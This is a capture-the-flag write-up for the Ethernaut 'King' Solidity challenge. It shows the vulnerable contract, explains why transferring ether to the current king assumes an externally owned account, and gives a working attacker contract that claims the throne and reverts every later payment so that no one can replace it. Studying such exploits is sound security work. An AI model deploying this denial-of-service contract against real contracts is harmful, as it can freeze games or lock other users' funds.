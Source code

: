 # 09. King

The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD

## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

## Vulnerability

The issue with this contract is `king.transfer(msg.value);` as it assumes that king is an EOA.

If king is a contract address, this contract could handle the transfer with the receive() function and revert the transaction.
This would forbid any execution of the following lines :

```solidity
king = msg.sender;
prize = msg.value;
```

And therefore, no one could take the current king's place...

This can be done simply with the following contract :

```solidity
pragma solidity ^0.8.0;

contract OnlyKing {
    
    constructor(address targetContract) payable {
        require(msg.value >= 1 ether, "Send 1 ether or more");
        (bool success, bytes memory rvalue) = targetContract.call{value: msg.value}("");
        require(success);
    }
    
    receive() external payable{
        revert();
    }

}
```

